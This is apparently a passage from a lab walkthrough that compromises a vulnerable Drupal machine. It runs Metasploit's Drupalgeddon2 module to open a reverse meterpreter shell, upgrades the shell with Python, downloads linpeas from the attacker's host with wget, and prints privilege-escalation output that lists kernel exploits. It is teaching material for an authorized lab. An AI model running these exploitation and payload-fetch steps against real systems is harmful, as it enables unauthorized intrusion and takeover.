Drupal 10.1.2 - web-cache-poisoning-External-service-interaction                                | php/webapps/51723.txt
Drupal 4.1/4.2 - Cross-Site Scripting                                                           | php/webapps/22940.txt
Drupal 4.5.3 < 4.6.1 - Comments PHP Injection                                                   | php/webapps/1088.pl
Drupal 4.7 - 'Attachment mod_mime' Remote Command Execution                                     | php/webapps/1821.php
Drupal 4.x - URL-Encoded Input HTML Injection                                                   | php/webapps/27020.txt
Drupal 5.2 - PHP Zend Hash ation Vector                                                         | php/webapps/4510.txt
Drupal 6.15 - Multiple Persistent Cross-Site Scripting Vulnerabilities                          | php/webapps/11060.txt
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Add Admin User)                               | php/webapps/34992.py
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Admin Session)                                | php/webapps/44355.php
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (PoC) (Reset Password) (1)                     | php/webapps/34984.py
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (PoC) (Reset Password) (2)                     | php/webapps/34993.php
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Remote Code Execution)                        | php/webapps/35150.php
Drupal 7.12 - Multiple Vulnerabilities                                                          | php/webapps/18564.txt
Drupal 7.x Module Services - Remote Code Execution                                              | php/webapps/41564.php
Drupal < 4.7.6 - Post Comments Remote Command Execution                                         | php/webapps/3313.pl
Drupal < 5.1 - Post Comments Remote Command Execution                                           | php/webapps/3312.pl
Drupal < 5.22/6.16 - Multiple Vulnerabilities                                                   | php/webapps/33706.txt
Drupal < 7.34 - Denial of Service                                                               | php/dos/35415.txt
Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code (Metasploit)                        | php/webapps/44557.rb
Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code (Metasploit)                        | php/webapps/44557.rb
Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code Execution (PoC)                     | php/webapps/44542.txt
Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution             | php/webapps/44449.rb
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (Metasploit)         | php/remote/44482.rb
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (Metasploit)         | php/remote/44482.rb
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (PoC)                | php/webapps/44448.py
Drupal < 8.5.11 / < 8.6.10 - RESTful Web Services unserialize() Remote Command Execution (Metas | php/remote/46510.rb
Drupal < 8.5.11 / < 8.6.10 - RESTful Web Services unserialize() Remote Command Execution (Metas | php/remote/46510.rb
Drupal < 8.6.10 / < 8.5.11 - REST Module Remote Code Execution                                  | php/webapps/46452.txt
Drupal < 8.6.9 - REST Module Remote Code Execution                                              | php/webapps/46459.py
Drupal avatar_uploader v7.x-1.0-beta8 - Arbitrary File Disclosure                               | php/webapps/44501.txt
Drupal avatar_uploader v7.x-1.0-beta8 - Cross Site Scripting (XSS)                              | php/webapps/50841.txt
Drupal Module CKEditor < 4.1WYSIWYG (Drupal 6.x/7.x) - Persistent Cross-Site Scripting          | php/webapps/25493.txt
Drupal Module CODER 2.5 - Remote Command Execution (Metasploit)                                 | php/webapps/40149.rb
Drupal Module Coder < 7.x-1.3/7.x-2.6 - Remote Code Execution                                   | php/remote/40144.php
Drupal Module Cumulus 5.x-1.1/6.x-1.4 - 'tagcloud' Cross-Site Scripting                         | php/webapps/35397.txt
Drupal Module Drag & Drop Gallery 6.x-1.5 - 'upload.php' Arbitrary File Upload                  | php/webapps/37453.php
Drupal Module Embedded Media Field/Media 6.x : Video Flotsam/Media: Audio Flotsam - Multiple Vu | php/webapps/35072.txt
Drupal Module RESTWS 7.x - PHP Remote Code Execution (Metasploit)                               | php/remote/40130.rb
Drupal Module Sections - Cross-Site Scripting                                                   | php/webapps/10485.txt
Drupal Module Sections 5.x-1.2/6.x-1.2 - HTML Injection                                         | php/webapps/33410.txt
------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

## Metasploit

```bash
search Drupalgeddon2

use 1
options
set rhosts 192.168.56.122
set rport 1898
set lhost 192.168.56.52

exploit
```


```bash
       =[ metasploit v6.4.20-dev                          ]
+ -- --=[ 2440 exploits - 1256 auxiliary - 429 post       ]
+ -- --=[ 1468 payloads - 47 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > search Drupalgeddon2

Matching Modules
================

   #   Name                                      Disclosure Date  Rank       Check  Description
   -   ----                                      ---------------  ----       -----  -----------
   0   exploit/unix/webapp/drupal_drupalgeddon2  2018-03-28       excellent  Yes    Drupal Drupalgeddon 2 Forms API Property Injection
   1     \_ target: Automatic (PHP In-Memory)    .                .          .      .
   2     \_ target: Automatic (PHP Dropper)      .                .          .      .
   3     \_ target: Automatic (Unix In-Memory)   .                .          .      .
   4     \_ target: Automatic (Linux Dropper)    .                .          .      .
   5     \_ target: Drupal 7.x (PHP In-Memory)   .                .          .      .
   6     \_ target: Drupal 7.x (PHP Dropper)     .                .          .      .
   7     \_ target: Drupal 7.x (Unix In-Memory)  .                .          .      .
   8     \_ target: Drupal 7.x (Linux Dropper)   .                .          .      .
   9     \_ target: Drupal 8.x (PHP In-Memory)   .                .          .      .
   10    \_ target: Drupal 8.x (PHP Dropper)     .                .          .      .
   11    \_ target: Drupal 8.x (Unix In-Memory)  .                .          .      .
   12    \_ target: Drupal 8.x (Linux Dropper)   .                .          .      .
   13    \_ AKA: SA-CORE-2018-002                .                .          .      .
   14    \_ AKA: Drupalgeddon 2                  .                .          .      .


Interact with a module by name or index. For example info 14, use 14 or use exploit/unix/webapp/drupal_drupalgeddon2

msf6 > use 1
[*] Additionally setting TARGET => Automatic (PHP In-Memory)
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > options

Module options (exploit/unix/webapp/drupal_drupalgeddon2):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   DUMP_OUTPUT  false            no        Dump payload command output
   PHP_FUNC     passthru         yes       PHP function to execute
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT        80               yes       The target port (TCP)
   SSL          false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI    /                yes       Path to Drupal install
   VHOST                         no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.56.52    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic (PHP In-Memory)


View the full module info with the info, or info -d command.

msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set rhosts 192.168.56.122
rhosts => 192.168.56.122
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set rport 1898
rport => 1898
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > exploit

[*] Started reverse TCP handler on 192.168.56.52:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Sending stage (39927 bytes) to 192.168.56.122
[*] Meterpreter session 1 opened (192.168.56.52:4444 -> 192.168.56.122:38720) at 2025-05-23 17:08:14 +0200
^[[20;3~
meterpreter >
```

We now have a meterpreter session, next step is to get a better shell functionality

```bash
meterpreter > shell
Process 14352 created.
Channel 0 created.
id      
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Use Python to spawn a Bash Shell 🐍🐌

```bash
which python
/usr/bin/python
python -c "import pty;pty.spawn('/bin/bash')"
www-data@lampiao:/var/www/html$ whoami
whoami
www-data
www-data@lampiao:/var/www/html$

# Check directories and root access
www-data@lampiao:/var/www/html$ cd /home
cd /home
www-data@lampiao:/home$ ls -al
ls -al
total 12
drwxr-xr-x  3 root  root  4096 Apr 19  2018 .
drwxr-xr-x 21 root  root  4096 Apr 19  2018 ..
drwxr-xr-x  4 tiago tiago 4096 Apr 20  2018 tiago
www-data@lampiao:/home$ cd tiago
cd tiago
www-data@lampiao:/home/tiago$ ls -al
ls -al
total 36
drwxr-xr-x 4 tiago tiago 4096 Apr 20  2018 .
drwxr-xr-x 3 root  root  4096 Apr 19  2018 ..
drwx------ 2 tiago tiago 4096 Apr 19  2018 .aptitude
-rw------- 1 tiago tiago   42 May 23 11:54 .bash_history
-rw-r--r-- 1 tiago tiago  220 Apr 19  2018 .bash_logout
-rw-r--r-- 1 tiago tiago 3637 Apr 19  2018 .bashrc
drwx------ 2 tiago tiago 4096 Apr 19  2018 .cache
-rw-r--r-- 1 tiago tiago  675 Apr 19  2018 .profile
-rw------- 1 root  root   577 Apr 19  2018 .viminfo
www-data@lampiao:/home/tiago$ cd /root
cd /root
bash: cd: /root: Permission denied
www-data@lampiao:/home/tiago$ 

```

#### 🥲 As you can see, we got permission denied 🥲

---
---

# Privilege Escalation

## Linpeas 🫛😊😀😆🫛

get the script `linpeas.sh` from GitHub

```bash
# Let's create a HTTP Server with python on our own machine
┌──(kali㉿kali)-[~]
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
192.168.56.122 - - [23/May/2025 17:33:19] "GET /linpeas.sh HTTP/1.1" 200 -

## (On target Shell) ## 
cd /tmp

# Download
wget http://192.168.56.52:8000/linpeas.sh

cd /tmp                                                                                                                                                                                                                                
www-data@lampiao:/tmp$ wget http://192.168.56.52:8000/linpeas.sh                                                                                                                                                                       
wget http://192.168.56.52:8000/linpeas.sh
--2025-05-23 12:33:17--  http://192.168.56.52:8000/linpeas.sh
Connecting to 192.168.56.52:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 860337 (840K) [text/x-sh]
Saving to: 'linpeas.sh'

100%[======================================>] 860,337     --.-K/s   in 0.05s   

2025-05-23 12:33:17 (14.9 MB/s) - 'linpeas.sh' saved [860337/860337]

www-data@lampiao:/tmp$       


# Change permisson with chmod
chmod +x linpeas.sh

# Run the script
www-data@lampiao:/tmp$ ./linpeas.sh
./linpeas.sh
```

##### Report

```bash
    /---------------------------------------------------------------------------------\
    |                             Do you like PEASS?                                  |                                                                                                                                                
    |---------------------------------------------------------------------------------|                                                                                                                                                
    |         Follow on Twitter         :     @hacktricks_live                        |                                                                                                                                                
    |         Respect on HTB            :     SirBroccoli                             |                                                                                                                                                
    |---------------------------------------------------------------------------------|                                                                                                                                                
    |                                 Thank you!                                      |                                                                                                                                                
    \---------------------------------------------------------------------------------/                                                                                                                                                
          linpeas-ng by github.com/PEASS-ng                                                                                                                                                                                            
                                                                                                                                                                                                                                       
ADVISORY: This script should be used for authorized penetration testing and/or educational purposes only. Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own computers and/or with the computer owner's permission.                                                                                                                                                                                    
                                                                                                                                                                                                                                       
Linux Privesc Checklist: https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist
 LEGEND:                                                                                                                                                                                                                               
  RED/YELLOW: 95% a PE vector
  RED: You should take a look to it
  LightCyan: Users with console
  Blue: Users without console & mounted devs
  Green: Common things (users, groups, SUID/SGID, mounts, .sh scripts, cronjobs) 
  LightMagenta: Your username

 Starting linpeas. Caching Writable Folders...

                               ╔═══════════════════╗
═══════════════════════════════╣ Basic information ╠═══════════════════════════════                                                                                                                                                    
                               ╚═══════════════════╝                                                                                                                                                                                   
OS: Linux version 4.4.0-31-generic (buildd@lgw01-01) (gcc version 4.8.4 (Ubuntu 4.8.4-2ubuntu1~14.04.3) ) #50~14.04.1-Ubuntu SMP Wed Jul 13 01:06:37 UTC 2016                                                                          
User & Groups: uid=33(www-data) gid=33(www-data) groups=33(www-data)
Hostname: lampiao
Writable folder: /run/shm
[+] /bin/ping is available for network discovery (linpeas can discover hosts, learn more with -h)
[+] /bin/bash is available for network discovery, port scanning and port forwarding (linpeas can discover hosts, scan ports, and forward ports. Learn more with -h)                                                                    
[+] /bin/nc is available for network discovery & port scanning (linpeas can discover hosts and scan ports, learn more with -h)                                                                                                         
                                                                                                                                                                                                                                       
                                                                                                                                                                                                                                       

Caching directories . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . uniq: write error: Broken pipe
DONE                                                                                                                                                                                                                                   
                                                                                                                                                                                                                                       
                              ╔════════════════════╗                                                                                                                                                                                   
══════════════════════════════╣ System Information ╠══════════════════════════════                                                                                                                                                                 
                              ╚════════════════════╝                                                                                                                                                                                               
╔══════════╣ Operative system
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#kernel-exploits                                                                                                                                                                 
Linux version 4.4.0-31-generic (buildd@lgw01-01) (gcc version 4.8.4 (Ubuntu 4.8.4-2ubuntu1~14.04.3) ) #50~14.04.1-Ubuntu SMP Wed Jul 13 01:06:37 UTC 2016                                                                                          
Distributor ID: Ubuntu
Description:    Ubuntu 14.04.5 LTS
Release:        14.04
Codename:       trusty

╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version                                                                                                                                                                    
Sudo version 1.8.9p5                                                                                                                                                                                                                               


╔══════════╣ PATH
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-path-abuses                                                                                                                                                            
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin                                                                                                                                                                                       

╔══════════╣ Date & uptime
Fri May 23 12:44:14 BRT 2025                                                                                                                                                                                                                       
 12:44:14 up  4:20,  0 users,  load average: 0.60, 0.14, 0.05

╔══════════╣ Any sd*/disk* disk in /dev? (limit 20)
disk                                                                                                                                                                                                                                               
sda
sda1
sda2
sda5

╔══════════╣ Unmounted file-system?
╚ Check if you can mount umounted devices                                                                                                                                                                                                          
UUID=51a898ec-a427-40cc-a7c8-a09b023c8a0f /               ext4    errors=remount-ro 0       1                                                                                                                                                      
UUID=0b26bcae-ff06-4171-bf86-bd745649b457 none            swap    sw              0       0

╔══════════╣ Environment
╚ Any private information inside environment variables?                                                                                                                                                                                            
HISTFILESIZE=0                                                                                                                                                                                                                                     
SHLVL=1
OLDPWD=/home/tiago
APACHE_RUN_DIR=/var/run/apache2
APACHE_PID_FILE=/var/run/apache2/apache2.pid
_=./linpeas.sh
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
APACHE_LOCK_DIR=/var/lock/apache2
LANG=C
HISTSIZE=0
APACHE_RUN_USER=www-data
APACHE_RUN_GROUP=www-data
APACHE_LOG_DIR=/var/log/apache2
PWD=/tmp
HISTFILE=/dev/null

╔══════════╣ Searching Signature verification failed in dmesg
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#dmesg-signature-verification-failed                                                                                                                                             
dmesg Not Found                                                                                                                                                                                                                                    
                                                                                                                                                                                                                                                   
╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester                                                                                                                                                                                                 
cat: write error: Broken pipe                                                                                                                                                                                                                      
cat: write error: Broken pipe
cat: write error: Broken pipe
cat: write error: Broken pipe
cat: write error: Broken pipe
cat: write error: Broken pipe
cat: write error: Broken pipe
cat: write error: Broken pipe
cat: write error: Broken pipe
cat: write error: Broken pipe
cat: write error: Broken pipe
[+] [CVE-2017-16995] eBPF_verifier

   Details: https://ricklarabee.blogspot.com/2018/07/ebpf-and-analysis-of-get-rekt-linux.html
   Exposure: highly probable
   Tags: debian=9.0{kernel:4.9.0-3-amd64},fedora=25|26|27,[ ubuntu=14.04 ]{kernel:4.4.0-89-generic},ubuntu=(16.04|17.04){kernel:4.(8|10).0-(19|28|45)-generic}
   Download URL: https://www.exploit-db.com/download/45010
   Comments: CONFIG_BPF_SYSCALL needs to be set && kernel.unprivileged_bpf_disabled != 1

[+] [CVE-2017-1000112] NETIF_F_UFO

   Details: http://www.openwall.com/lists/oss-security/2017/08/13/1
   Exposure: highly probable
   Tags: [ ubuntu=14.04{kernel:4.4.0-*} ],ubuntu=16.04{kernel:4.8.0-*}
   Download URL: https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2017-1000112/poc.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2017-1000112/poc.c
   Comments: CAP_NET_ADMIN cap or CONFIG_USER_NS=y needed. SMEP/KASLR bypass included. Modified version at 'ext-url' adds support for additional distros/kernels

[+] [CVE-2016-8655] chocobo_root

   Details: http://www.openwall.com/lists/oss-security/2016/12/06/1
   Exposure: highly probable
   Tags: [ ubuntu=(14.04|16.04){kernel:4.4.0-(21|22|24|28|31|34|36|38|42|43|45|47|51)-generic} ]
   Download URL: https://www.exploit-db.com/download/40871
   Comments: CAP_NET_RAW capability is needed OR CONFIG_USER_NS=y needs to be enabled

[+] [CVE-2016-5195] dirtycow

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: debian=7|8,RHEL=5{kernel:2.6.(18|24|33)-*},RHEL=6{kernel:2.6.32-*|3.(0|2|6|8|10).*|2.6.33.9-rt31},RHEL=7{kernel:3.10.0-*|4.2.0-0.21.el7},[ ubuntu=16.04|14.04|12.04 ]
   Download URL: https://www.exploit-db.com/download/40611
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh

[+] [CVE-2016-5195] dirtycow 2

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: debian=7|8,RHEL=5|6|7,[ ubuntu=14.04|12.04 ],ubuntu=10.04{kernel:2.6.32-21-generic},ubuntu=16.04{kernel:4.4.0-21-generic}
   Download URL: https://www.exploit-db.com/download/40839
   ext-url: https://www.exploit-db.com/download/40847
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh

[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: centos=6|7|8,[ ubuntu=14|16|17|18|19|20 ], debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main

[+] [CVE-2017-6074] dccp

   Details: http://www.openwall.com/lists/oss-security/2017/02/22/3
   Exposure: probable
   Tags: [ ubuntu=(14.04|16.04) ]{kernel:4.4.0-62-generic}
   Download URL: https://www.exploit-db.com/download/41458
   Comments: Requires Kernel be built with CONFIG_IP_DCCP enabled. Includes partial SMEP/SMAP bypass

[+] [CVE-2016-2384] usb-midi

   Details: https://xairy.github.io/blog/2016/cve-2016-2384
   Exposure: probable
   Tags: [ ubuntu=14.04 ],fedora=22
   Download URL: https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2016-2384/poc.c
   Comments: Requires ability to plug in a malicious USB device and to execute a malicious binary as a non-privileged user

[+] [CVE-2015-3202] fuse (fusermount)

   Details: http://seclists.org/oss-sec/2015/q2/520
   Exposure: probable
   Tags: debian=7.0|8.0,[ ubuntu=* ]
   Download URL: https://www.exploit-db.com/download/37089
   Comments: Needs cron or system admin interaction

[+] [CVE-2015-1318] newpid (apport)

   Details: http://openwall.com/lists/oss-security/2015/04/14/4
   Exposure: probable
   Tags: [ ubuntu=14.04 ]
   Download URL: https://gist.githubusercontent.com/taviso/0f02c255c13c5c113406/raw/eafac78dce51329b03bea7167f1271718bee4dcc/newpid.c

[+] [CVE-2022-32250] nft_object UAF (NFT_MSG_NEWSET)

   Details: https://research.nccgroup.com/2022/09/01/settlers-of-netlink-exploiting-a-limited-uaf-in-nf_tables-cve-2022-32250/
https://blog.theori.io/research/CVE-2022-32250-linux-kernel-lpe-2022/
   Exposure: less probable
   Tags: ubuntu=(22.04){kernel:5.15.0-27-generic}
   Download URL: https://raw.githubusercontent.com/theori-io/CVE-2022-32250-exploit/main/exp.c
   Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)

[+] [CVE-2022-2586] nft_object UAF

   Details: https://www.openwall.com/lists/oss-security/2022/08/29/5
   Exposure: less probable
   Tags: ubuntu=(20.04){kernel:5.12.13}
   Download URL: https://www.openwall.com/lists/oss-security/2022/08/29/5/1
   Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)

[+] [CVE-2021-3156] sudo Baron Samedit

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: less probable
   Tags: mint=19,ubuntu=18|20, debian=10
   Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main

[+] [CVE-2021-22555] Netfilter heap out-of-bounds write

   Details: https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html
   Exposure: less probable
   Tags: ubuntu=20.04{kernel:5.8.0-*}
   Download URL: https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2021-22555/exploit.c
   Comments: ip_tables kernel module must be loaded

[+] [CVE-2019-18634] sudo pwfeedback

   Details: https://dylankatz.com/Analysis-of-CVE-2019-18634/
   Exposure: less probable
   Tags: mint=19
   Download URL: https://github.com/saleemrashid/sudo-cve-2019-18634/raw/master/exploit.c
   Comments: sudo configuration requires pwfeedback to be enabled.

[+] [CVE-2019-15666] XFRM_UAF

   Details: https://duasynt.com/blog/ubuntu-centos-redhat-privesc
   Exposure: less probable
   Download URL: 
   Comments: CONFIG_USER_NS needs to be enabled; CONFIG_XFRM needs to be enabled

[+] [CVE-2017-7308] af_packet

   Details: https://googleprojectzero.blogspot.com/2017/05/exploiting-linux-kernel-via-packet.html
   Exposure: less probable
   Tags: ubuntu=16.04{kernel:4.8.0-(34|36|39|41|42|44|45)-generic}
   Download URL: https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2017-7308/poc.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2017-7308/poc.c
   Comments: CAP_NET_RAW cap or CONFIG_USER_NS=y needed. Modified version at 'ext-url' adds support for additional kernels

[+] [CVE-2017-5618] setuid screen v4.5.0 LPE

   Details: https://seclists.org/oss-sec/2017/q1/184
   Exposure: less probable
   Download URL: https://www.exploit-db.com/download/https://www.exploit-db.com/exploits/41154

[+] [CVE-2016-9793] SO_{SND|RCV}BUFFORCE

   Details: https://github.com/xairy/kernel-exploits/tree/master/CVE-2016-9793
   Exposure: less probable
   Download URL: https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2016-9793/poc.c
   Comments: CAP_NET_ADMIN caps OR CONFIG_USER_NS=y needed. No SMEP/SMAP/KASLR bypass included. Tested in QEMU only

[+] [CVE-2016-4557] double-fdput()

   Details: https://bugs.chromium.org/p/project-zero/issues/detail?id=808
   Exposure: less probable
   Tags: ubuntu=16.04{kernel:4.4.0-21-generic}
   Download URL: https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/39772.zip
   Comments: CONFIG_BPF_SYSCALL needs to be set && kernel.unprivileged_bpf_disabled != 1

[+] [CVE-2015-1318] newpid (apport) 2

   Details: http://openwall.com/lists/oss-security/2015/04/14/4
   Exposure: less probable
   Tags: ubuntu=14.04.2
   Download URL: https://www.exploit-db.com/download/36782

[+] [CVE-2016-0728] keyring

   Details: http://perception-point.io/2016/01/14/analysis-and-exploitation-of-a-linux-kernel-vulnerability-cve-2016-0728/
   Exposure: less probable
   Download URL: https://www.exploit-db.com/download/40003
   Comments: Exploit takes about ~30 minutes to run. Exploit is not reliable, see: https://cyseclabs.com/blog/cve-2016-0728-poc-not-working


╔══════════╣ Executing Linux Exploit Suggester 2
╚ https://github.com/jondonas/linux-exploit-suggester-2                                                                                                                                                                                            
  [1] af_packet                                                                                                                                                                                                                                    
      CVE-2016-8655
      Source: http://www.exploit-db.com/exploits/40871
  [2] exploit_x
      CVE-2018-14665
      Source: http://www.exploit-db.com/exploits/45697
  [3] get_rekt
      CVE-2017-16695
      Source: http://www.exploit-db.com/exploits/45010


╔══════════╣ Protections
═╣ AppArmor enabled? .............. apparmor module is loaded.                                                                                                                                                                                     
Traceback (most recent call last):
  File "/usr/sbin/aa-status", line 194, in <module>
    commands[cmd]()
  File "/usr/sbin/aa-status", line 45, in cmd_verbose
    profiles = get_profiles()
  File "/usr/sbin/aa-status", line 92, in get_profiles
    for p in open(apparmor_profiles).readlines():
PermissionError: [Errno 13] Permission denied: '/sys/kernel/security/apparmor/profiles'
═╣ AppArmor profile? .............. unconfined
═╣ is linuxONE? ................... s390x Not Found
═╣ grsecurity present? ............ grsecurity Not Found                                                                                                                                                                                           
═╣ PaX bins present? .............. PaX Not Found                                                                                                                                                                                                  
═╣ Execshield enabled? ............ Execshield Not Found                                                                                                                                                                                           
═╣ SELinux enabled? ............... sestatus Not Found                                                                                                                                                                                             
═╣ Seccomp enabled? ............... disabled                                                                                                                                                                                                       
═╣ User namespace? ................ enabled
═╣ Cgroup2 enabled? ............... disabled
═╣ Is ASLR enabled? ............... Yes
═╣ Printer? ....................... No
═╣ Is this a virtual machine? ..... Yes                                                                                                                                                                                                            

                                   ╔═══════════╗
═══════════════════════════════════╣ Container ╠═══════════════════════════════════                                                                                                                                                                
                                   ╚═══════════╝                                                                                                                                                                                                   
╔══════════╣ Container related tools present (if any):
╔══════════╣ Am I Containered?                                                                                                                                                                                                                     
╔══════════╣ Container details                                                                                                                                                                                                                     
═╣ Is this a container? ........... No                                                                                                                                                                                                             
═╣ Any running containers? ........ No                                                                                                                                                                                                             
                                                                                                                                                                                                                                                   

                                     ╔═══════╗
═════════════════════════════════════╣ Cloud ╠═════════════════════════════════════                                                                                                                                                                
                                     ╚═══════╝                                                                                                                                                                                                     
═╣ GCP Virtual Machine? ................. No
═╣ GCP Cloud Funtion? ................... No
═╣ AWS ECS? ............................. No
═╣ AWS EC2? ............................. No
═╣ AWS EC2 Beanstalk? ................... No
═╣ AWS Lambda? .......................... No
═╣ AWS Codebuild? ....................... No
═╣ DO Droplet? .......................... No
═╣ Aliyun ECS? .......................... No
grep: /etc/cloud/cloud.cfg: No such file or directory
═╣ Tencent CVM? .......................... No
═╣ IBM Cloud VM? ........................ No
═╣ Azure VM? ............................ No
═╣ Azure APP? ........................... No

curl: (6) Could not resolve host: metadata.google.internal


                ╔════════════════════════════════════════════════╗
════════════════╣ Processes, Crons, Timers, Services and Sockets ╠════════════════                                                                                                                                                                 
                ╚════════════════════════════════════════════════╝                                                                                                                                                                                 
╔══════════╣ Cleaned processes
╚ Check weird & unexpected proceses run by root: https://book.hacktricks.xyz/linux-hardening/privilege-escalation#processes                                                                                                                        
root         1  0.0  0.1   4212  3376 ?        Ss   08:23   0:01 /sbin/init                                                                                                                                                                        
root       184  0.0  0.1   3596  2892 ?        Ss   08:23   0:02 /bin/bash /etc/cangaco/lampiao.sh
root     18087  0.0  0.0   2604   688 ?        S    12:44   0:00  _ nc -lk 80
root     18088  0.0  0.0   2192   496 ?        S    12:44   0:00  _ sleep 10
root       312  0.0  0.1   3028  2128 ?        S    08:23   0:00 upstart-udev-bridge --daemon[0m
root       318  0.0  0.1  12328  3312 ?        Ss   08:23   0:00 /lib/systemd/systemd-udevd --daemon[0m
root       404  0.0  0.0   2896   156 ?        S    08:23   0:00 upstart-file-bridge --daemon[0m
syslog     407  0.0  0.1  30492  2664 ?        Ssl  08:23   0:00 rsyslogd
root       461  0.0  0.2   5528  3756 ?        Ss   08:23   0:00 dhclient -1 -v -pf /run/dhclient.eth0.pid -lf /var/lib/dhcp/dhclient.eth0.leases eth0
root       580  0.0  0.0   2884   152 ?        S    08:23   0:00 upstart-socket-bridge --daemon[0m
root       765  0.0  0.1   4660  1996 tty4     Ss+  08:23   0:00 /sbin/getty -8 38400 tty4
root       768  0.0  0.1   4660  1920 tty5     Ss+  08:23   0:00 /sbin/getty -8 38400 tty5
root       777  0.0  0.1   4660  1996 tty2     Ss+  08:23   0:00 /sbin/getty -8 38400 tty2
root       780  0.0  0.1   4660  1980 tty3     Ss+  08:23   0:00 /sbin/getty -8 38400 tty3
root       783  0.0  0.1   4660  1996 tty6     Ss+  08:23   0:00 /sbin/getty -8 38400 tty6
root       820  0.0  0.2   7820  4836 ?        Ss   08:23   0:00 /usr/sbin/sshd -D
root       825  0.0  0.0   2212  1588 ?        Ss   08:23   0:00 acpid -c /etc/acpi/events -s /var/run/acpid.socket
root       829  0.0  0.1   3064  2220 ?        Ss   08:23   0:00 cron
daemon[0m     830  0.0  0.0   2656   116 ?        Ss   08:23   0:00 atd
mysql      938  0.3  3.2 322116 55616 ?        Ssl  08:23   0:47 /usr/sbin/mysqld
root      1015  0.0  1.3 115736 23640 ?        Ss   08:23   0:04 /usr/sbin/apache2 -k start
www-data  1024  0.0  1.3 117336 22416 ?        S    08:23   0:00  _ /usr/sbin/apache2 -k start
www-data  1025  0.0  1.3 117336 22416 ?        S    08:23   0:00  _ /usr/sbin/apache2 -k start
www-data  1026  0.0  1.3 117860 23192 ?        S    08:23   0:01  _ /usr/sbin/apache2 -k start
www-data  1027  0.0  1.3 117332 22348 ?        S    08:23   0:00  _ /usr/sbin/apache2 -k start
